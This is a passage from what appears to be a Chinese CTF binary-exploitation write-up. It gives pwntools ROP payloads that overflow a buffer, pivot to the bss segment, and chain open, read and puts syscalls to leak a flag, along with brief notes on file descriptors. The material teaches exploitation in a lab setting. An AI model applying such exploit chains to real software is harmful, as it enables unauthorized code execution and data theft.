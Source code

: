 ```plain
p.send(pl)

syscall = libc_base + libc.sym['syscall']
pl = p64(0)+p64(rdi)+p64(2)+p64(rsi_r15)+p64(0x601200)+p64(0)+p64(syscall)
pl += p64(rdi)+p64(3)+p64(rsi_r15)+p64(0x601200)+p64(0x100)+p64(read_addr)
pl += p64(rdi)+p64(0x601200)+p64(puts_addr)+p64(main) #8
#dbg()
p.send(pl)
```

‍

pl 1、2 正常起手，pl 3 来获取 libc 地址

```plain
pl = b'a'*0x100+p64(bss)+p64(read) #1
p.send(pl)

pl = b'a'*0x100+p64(bss+0x100)+p64(read) #2
p.send(pl)
```

‍

> read()
> 
> 文件描述符：0 标准输入，1 标准输出，2 标准报错，3、4、5 .. 第一、二、三 ...个文件
> 
> ‍
> 
> ORP 和 ORW：
> 
> puts 更方便，只需要一个参数，而 write 需要多次传参
> 
> 但 puts 遇到'x00'停止，有些 ex 的 flag 可能会故意带上'\\x00'

‍

将 flag 读入 bss 段

```plain
pl = p64(bss+0x130)+p64(rdi)+p64(0)+p64(rsi_r15)+p64(0x601200)+p64(0x40)+p64(read_addr)+p64(main)
dbg()
p.send(pl)
pause()
p.send('flag')
```

[![](assets/1701606597-38e4655bb25f45df0a325ead09d622b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170350-0ee87556-845f-1.png)

[![](assets/1701606597-a028ede4e02adaa0c0227a95a22d1ce9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170354-115f8522-845f-1.png)
